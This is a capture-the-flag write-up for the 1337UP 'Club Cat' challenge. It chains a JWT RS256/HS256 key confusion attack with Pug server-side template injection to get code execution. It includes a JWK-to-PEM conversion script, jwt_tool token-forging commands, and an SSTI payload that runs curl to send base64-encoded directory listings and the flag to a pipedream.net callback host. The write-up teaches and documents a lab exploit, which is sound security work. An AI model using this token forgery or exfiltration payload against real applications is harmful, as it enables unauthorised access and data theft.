 ##**Key Confusion Attack with JWT and Pug SSTI**

## **Description**
People are always complaining that there's not enough cat pictures on the internet.. Something must be done!!
<br></br>

1. Identifying the Attack Surface
While reading through the source code, I discovered that the RS256 JWT keys were publicly accessible via the /jwks.json route. 
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/Capture.PNG">
<br></br>
This gives us the ability to perform a key confusion attack, as described here
<br></br>
https://portswigger.net/web-security/jwt/algorithm-confusion

Further investigation revealed a route called /cats, which processes a Pug SSTI (Server-Side Template Injection) vulnerability in the username parameter. This username is directly extracted from the JWT token.
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/2.PNG">
<br></br>
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs 
<br></br>
2. Attack Strategy
Based on the information, the attack surface could be summarized as follows:

Retrieve the RS256 keys from the /jwks.json endpoint.
Perform a key confusion attack to inject a payload into the username.
Exploit the Pug SSTI vulnerability.
Gain Remote Code Execution (RCE) and read the flag.
<br></br>

3. Exploiting RS256 Key Confusion
To proceed, I used a script to convert the RS256 key into a .pem file, which could be used with jwt_tool. This allowed me to manipulate the JWT token.
```py
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers


jwk = {
    "kty": "RSA",
    "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
    "e": "AQAB"
}


n = int.from_bytes(base64.urlsafe_b64decode(jwk["n"] + "=="), byteorder='big')
e = int.from_bytes(base64.urlsafe_b64decode(jwk["e"] + "=="), byteorder='big')


public_numbers = RSAPublicNumbers(e, n)
public_key = public_numbers.public_key()


pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# Save to a .pem file
with open("public_key.pem", "wb") as pem_file:
    pem_file.write(pem)

print("Public RSA key saved to public_key.pem")
```
<br></br>
```text
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw4oPEx+448XQWH/OtSWN
8L0NUDU+rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpat
hL1zf3/Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQz
YcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnR
fT5HJjSRu/JmGlYCrFSof5p/E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t
8opUrLbrJYoWFeYZOY/Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ+H
dwIDAQAB
-----END PUBLIC KEY-----
```
<br></br>

4. JWT Token Manipulation
Next, I created an account and captured the JWT token. Afterward, I used jwt_tool to craft a custom token that exploited the SSTI vulnerability by injecting arbitrary code into the username field.
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/3.PNG">
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/4.PNG">

<br></br>
And then use jwt_tool
```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{7*7}"

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7Nyo3fSJ9.lsLiuUrEkr81Z73IyAJmF7gTJfp9WwqErjPlr9e9UvI
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/6.PNG">
<br></br>
It worked!, now let's see where the flag is, From the Dockerfile we can see that the flag is randomized and it's in the root directory.
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/7.PNG">
<br></br>
```sh
─$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL3xiYXNlNjRgJyl9KCl9In0.PxWfN3-n3u4IxcWorBADNw52W-NFJ491nrf5ATz9WNs 
```
And we got a callback
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/8.PNG">
<br></br>
Then we got the flag file name: 
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/9.PNG">
<br></br>

5. Getting the Flag

```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /flag_Gx4wVbEc1fxN9ztM.txt|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL2ZsYWdfR3g0d1ZiRWMxZnhOOXp0TS50eHR8YmFzZTY0YCcpfSgpfSJ9.1IMzf-EtCtP7W_oeblc7njtLt6aeSNy5DqxJgeX1KZY 
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/10.PNG">
<br></br>
```
INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}
```

